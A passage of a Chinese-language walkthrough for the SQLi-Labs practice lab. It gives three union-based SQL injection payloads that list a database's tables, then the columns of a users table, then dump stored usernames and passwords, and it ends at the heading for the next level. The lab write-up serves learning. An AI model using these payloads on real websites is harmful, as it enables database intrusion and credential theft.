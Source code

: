 ?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+

爆出数据表

![image-20240404104628495](PictureFile/SqliLabs通关.assets/image-20240404104628495.png)

?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+

爆出字段名

![image-20240404104839119](PictureFile/SqliLabs通关.assets/image-20240404104839119.png)

?id=-1') union select 1,2,group_concat(0x7e,username,0x7e,password,0x7e) from security.users--+

爆出数据

![image-20240404105319945](PictureFile/SqliLabs通关.assets/image-20240404105319945.png)

## 第四关-双引号括号
